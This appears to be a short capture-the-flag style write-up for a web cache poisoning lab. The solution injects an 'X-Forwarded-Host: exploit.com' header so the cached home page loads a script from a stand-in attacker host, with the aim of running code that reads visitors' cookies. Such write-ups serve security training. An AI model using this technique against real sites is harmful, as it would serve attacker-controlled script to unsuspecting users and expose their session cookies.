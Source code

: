 # Description
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution

Add header to get request to `/`

X-Forwarded-Host: exploit.com

In response we can see: 

```html
<script type="text/javascript" src="//exploit.com/resources/js/tracking.js">
```

> [!warning]
For some reason ParamMiner maybe wrongly makes requests and i couldnt able to solve the lab. Disable ParamMiner

